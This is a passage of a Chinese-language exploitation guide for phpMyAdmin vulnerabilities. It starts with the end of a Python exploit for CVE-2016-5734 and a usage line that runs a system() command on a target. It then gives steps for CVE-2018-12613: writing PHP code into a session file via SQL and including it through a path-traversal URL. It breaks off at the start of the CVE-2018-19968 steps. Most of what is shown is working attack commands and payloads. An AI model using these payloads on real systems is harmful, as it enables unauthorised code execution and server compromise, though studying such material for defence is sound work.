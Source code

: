 ```python
        if len(result):
            print("result: " + result)
            sys.exit(0)
        print(
            "Exploit failed!\n"
            "Try to manually set exploit parameters like --table, --database and --token.\n"
            "Remember that servers with PHP version greater than 5.4.6"
            " is not exploitable, because of warning about null byte in regexp"
        )
        sys.exit(1)
```

利用如下：

```bash
cve-2016-5734.py -u root --pwd="" http://localhost/pma -c "system('ls -lua');"
```



## 3.4 CVE-2018-12613：后台文件包含

影响范围：

```markdown
phpMyAdmin version
	4.8.0和4.8.1
```

利用如下：
（1）执行SQL语句，将PHP代码写入Session文件中：

```php-template
select '<?php phpinfo();exit;?>'
```

（2）包含session文件：(注意这里是默认了根目录是 `网站/phpmyadmin/`)

```bash
http://10.1.1.10/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_*** 		
# *** 为phpMyAdmin的COOKIE值
```



## 3.5 CVE-2018-19968：任意文件包含/RCE

影响范围：

```markdown
phpMyAdmin version
	4.8.0~4.8.3
```

利用如下：
（1）创建数据库，并将PHP代码写入Session文件中
